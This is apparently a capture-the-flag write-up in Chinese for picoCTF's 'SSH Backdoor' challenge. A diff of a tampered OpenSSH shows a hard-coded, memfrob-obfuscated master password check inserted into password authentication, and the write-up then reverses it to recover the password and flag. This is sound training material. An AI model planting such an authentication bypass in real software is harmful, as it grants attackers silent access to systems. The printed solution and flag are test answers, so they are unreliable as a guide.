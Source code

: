 # SSH Backdoor
提示：hacker留了後門，也許你可以拿來和openssh原始碼做比較？
 * 下載[openssh-6.7](openssh-6.7p1_origin.zip)，並使用 diff 察看hacker改了什麼檔案：
```
$ diff openssh-6.7p1_pico openssh-6.7p1_origin/
diff openssh-6.7p1_pico/auth.c openssh-6.7p1_origin/auth.c
777,794d776
<
< static int frobcmp(const char *chk, const char *str) {
< 	int rc = 0;
< 	size_t len = strlen(str);
< 	char *s = xstrdup(str);
< 	memfrob(s, len);
<
< 	if (strcmp(chk, s) == 0) {
< 		rc = 1;
< 	}
<
< 	free(s);
< 	return rc;
< }
<
< int check_password(const char *password) {
< 	return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
< }
diff openssh-6.7p1_pico/auth.h openssh-6.7p1_origin/auth.h
214,215d213
< int check_password(const char *);
<
diff openssh-6.7p1_pico/auth-passwd.c openssh-6.7p1_origin/auth-passwd.c
115,117d114
< 	if (check_password(password)) {
< 		return ok;
< 	}
Only in openssh-6.7p1_pico: buildpkg.sh
Only in openssh-6.7p1_pico: config.h
Only in openssh-6.7p1_pico: config.log
Only in openssh-6.7p1_pico: config.status
Common subdirectories: openssh-6.7p1_pico/contrib and openssh-6.7p1_origin/contrib
Only in openssh-6.7p1_pico: Makefile
Common subdirectories: openssh-6.7p1_pico/openbsd-compat and openssh-6.7p1_origin/openbsd-compat
Only in openssh-6.7p1_pico: opensshd.init
Only in openssh-6.7p1_pico: openssh.xml
Common subdirectories: openssh-6.7p1_pico/regress and openssh-6.7p1_origin/regress
Common subdirectories: openssh-6.7p1_pico/scard and openssh-6.7p1_origin/scard
Only in openssh-6.7p1_pico: survey.sh
```
diff 告訴我們，hacker把authentication method 改成：
 * ```frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password)```檢查通過，就能登入server
  * frobcmp 把加密後的password 和```"CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY"```比較
  * 加密password的方法是：```memfrob(xstrdup(password), strlen(password))```
 * 看看 memfrob 做什麼：$ man memfrob
```
SYNOPSIS
       #define _GNU_SOURCE             /* See feature_test_macros(7) */
       #include <string.h>

       void *memfrob(void *s, size_t n);
DESCRIPTION
       The memfrob() function encrypts the first n bytes of the memory
       area s by exclusive-ORing each character with  the  number  42.
       The  effect can be reversed by using memfrob() on the encrypted
       memory area.

       Note that this function is not a proper encryption  routine  as
       the  XOR  constant  is  fixed,  and is suitable only for hiding
       strings.
```
 * 重點：**The  effect can be reversed by using memfrob() on the encrypted
 memory area.**
 * 所以，寫了一個[程式](gen_password.c)，對```"CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY"```做一次memfrob
  * 得到password = ```iminyourmachinestealingyourflags```
 * 拿去登入backdoor.picoctf.com：
```
$ ssh jon@backdoor.picoctf.com
jon@backdoor.picoctf.com's password:
Last login: Wed Jul 22 20:14:47 2015 from f053221121.adsl.alicedsl.de
jon@ip-10-45-162-116:~$ ls
flag.txt
jon@ip-10-45-162-116:~$ cat flag.txt
ssshhhhh_theres_a_backdoor
```
